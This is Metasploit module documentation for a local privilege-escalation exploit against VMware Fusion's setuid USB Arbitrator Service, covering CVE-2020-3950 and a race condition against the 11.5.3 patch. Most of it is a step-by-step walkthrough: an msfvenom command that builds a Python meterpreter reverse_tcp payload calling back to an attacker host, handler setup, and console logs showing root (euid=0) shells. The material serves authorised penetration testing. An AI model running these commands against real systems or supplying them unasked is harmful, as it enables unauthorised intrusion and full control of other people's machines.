 ## Vulnerable Application

This exploits an improper use of setuid binaries within VMware Fusion 10.1.3 - 11.5.2. The `Open VMware USB Arbitrator Service` can be
launched outide of its standard path which allows loading of an attacker controlled binary. By creating a payload in the user home
directory in a specific folder, and creating a hard link to the `Open VMware USB Arbitrator Service`, we're able to launch it
temporarily to start our payload with an effective UID of 0.

Additional description can be found in
@mirchr's [exploit](https://raw.githubusercontent.com/mirchr/security-research/master/vulnerabilities/CVE-2020-3950.sh).

It was found that VMware Fusion 11.5.3, which patched the previous vulnerability utilized an incomplete patch.  The patch checked
for a correct code signature on the `VMware USB Arbitrator Service` at start, but not at launch, thus creating a TOCTOU race
condition.  The discoverer @jeffball55 demoed the exploit working in ~30 attempts.  This module has been successful between
5 and 25 attempts.

VMware Fusion 11.5.1 is available from [VMware](https://download3.vmware.com/software/fusion/file/VMware-Fusion-11.5.1-15018442.dmg).

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Get a shell
  4. Do: ```use exploit/osx/local/vmware_fusion_lpe```
  5. Do: ```set session #```
  6. Do: ```run```
  7. You should get a `euid=0` shell.

## Options

### MAXATTEMPTS

The maximum attempts to start `VMware USB Arbitrator Service`, attempting to win the race against 11.5.3.  Default is `75`.

### Session

Which session to use this exploit on.

## Scenarios

### VMware Fusion 11.5.1 (15018442) on macOS 10.15.3 (19D76)

```
/msfvenom --payload python/meterpreter/reverse_tcp LHOST=1.1.1.1 LPORT=8888 -b "\x00" -o /var/www/html/meterp_8888.py
```

```
[*] Processing fusion.rb for ERB directives.
resource (fusion.rb)> setg verbose true
verbose => true
resource (fusion.rb)> use exploit/multi/handler
resource (fusion.rb)> set payload python/meterpreter/reverse_tcp
payload => python/meterpreter/reverse_tcp
resource (fusion.rb)> setg lhost 1.1.1.1
lhost => 1.1.1.1
resource (fusion.rb)> set lport 8888
lport => 8888
resource (fusion.rb)> exploit
[+] Vmware Fusion 11.5.1 is exploitable
[*] The target appears to be vulnerable.
[*] Started reverse TCP handler on 1.1.1.1:8888 
[*] Sending stage (53755 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:8888 -> 2.2.2.2:49265) at 2020-03-23 18:07:57 -0400

meterpreter > getuid
Server username: h00die
meterpreter > sysinfo
Computer        : h00dies-MBP.doman
OS              : Darwin 19.3.0 Darwin Kernel Version 19.3.0: Thu Jan  9 20:58:23 PST 2020; root:xnu-6153.81.5~1/RELEASE_X86_64
Architecture    : x64
System Language : en_US
Meterpreter     : python/osx
meterpreter > background
[*] Backgrounding session 1...
```

```
resource (fusion.rb)> use exploit/osx/local/vmware_fusion_lpe
resource (fusion.rb)> set session 1
session => 1
resource (fusion.rb)> exploit

[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 1.1.1.1:4444 
[+] Vmware Fusion 11.5.1 is exploitable
[*] Using pre-11.5.3 exploit
[*] Uploading Payload: /Users/h00die/Contents/Library/services/VMware USB Arbitrator Service
[*] Creating folder (/Users/h00die/2KLH/s0m/wX8XO/) and link
[*] Starting USB Arbitrator Service (5 sec pause)
[*] Meterpreter session 2 opened (1.1.1.1:4444 -> 2.2.2.2:49269) at 2020-03-23 18:08:14 -0400
[+] Deleted /Users/h00die/Contents/Library/services/VMware USB Arbitrator Service
[*] Killing service
[*] Deleting /Users/h00die/2KLH

meterpreter > getuid
Server username: h00die @ h00dies-MBP.domain (uid=501, gid=20, euid=0, egid=20)
meterpreter > sysinfo
Computer     : h00dies-MBP.domain
OS           : macOS Unknown (macOS 10.15.3)
Architecture : x86
BuildTuple   : x86_64-apple-darwin
Meterpreter  : x64/osx

```

### VMWare Fusion 11.5.3 on macOS 10.15.3

```
```

```
resource (fusion.rb)> setg verbose true
verbose => true
resource (fusion.rb)> use exploit/multi/handler
resource (fusion.rb)> set payload python/meterpreter/reverse_tcp
payload => python/meterpreter/reverse_tcp
resource (fusion.rb)> setg lhost 1.1.1.1
lhost => 1.1.1.1
resource (fusion.rb)> set lport 8888
lport => 8888
resource (fusion.rb)> exploit
[*] Started reverse TCP handler on 1.1.1.1:8888 
[*] Sending stage (53755 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:8888 -> 2.2.2.2:49198) at 2020-03-28 07:37:16 -0400

meterpreter > getuid
Server username: h00die
meterpreter > sysinfo
Computer        : h00dies-MBP.ragedomain
OS              : Darwin 19.3.0 Darwin Kernel Version 19.3.0: Thu Jan  9 20:58:23 PST 2020; root:xnu-6153.81.5~1/RELEASE_X86_64
Architecture    : x64
System Language : en_US
Meterpreter     : python/osx
meterpreter > background
[*] Backgrounding session 1...
```
```
resource (fusion.rb)> use exploit/osx/local/vmware_fusion_lpe
resource (fusion.rb)> set session 1
session => 1
resource (fusion.rb)> exploit

[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 1.1.1.1:4444 
[+] Vmware Fusion 11.5.3 is exploitable
[*] Using 11.5.3 exploit
[*] Uploading Payload to /Users/h00die/Contents/Library/services/SAGgama
[*] Uploading race condition executable.
[*] Writing '/Users/h00die/Contents/Library/services/TVOK7bDP' (342 bytes) ...
[*] Creating folder (/Users/h00die/weGd/JvR/VoYDt/) and link
[*] Writing '/Users/h00die/Contents/Library/services/alYnwGRyo' (178 bytes) ...
[*] Launching Exploit /Users/h00die/Contents/Library/services/alYnwGRyo
[*] attempt 1
[*] Exploit Finished, killing 
[*] Meterpreter session 2 opened (1.1.1.1:4444 -> 2.2.2.2:49213) at 2020-03-28 07:37:28 -0400
[-] Unable to delete /Users/h00die/Contents/Library/services/VMware USB Arbitrator Service
[+] Deleted /Users/h00die/Contents/Library/services/TVOK7bDP
[-] Exploit failed: Rex::Post::Meterpreter::RequestError stdapi_fs_delete_dir: Operation failed: Python exception: OSError
[*] Exploit completed, but no session was created.
msf5 exploit(osx/local/vmware_fusion_lpe) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > getuid
Server username: h00die @ h00dies-MBP.ragedomain (uid=501, gid=20, euid=0, egid=20)
meterpreter > sysinfo
Computer     : h00dies-MBP.ragedomain
OS           : macOS Unknown (macOS 10.15.3)
Architecture : x86
BuildTuple   : x86_64-apple-darwin
Meterpreter  : x64/osx
meterpreter > 
```
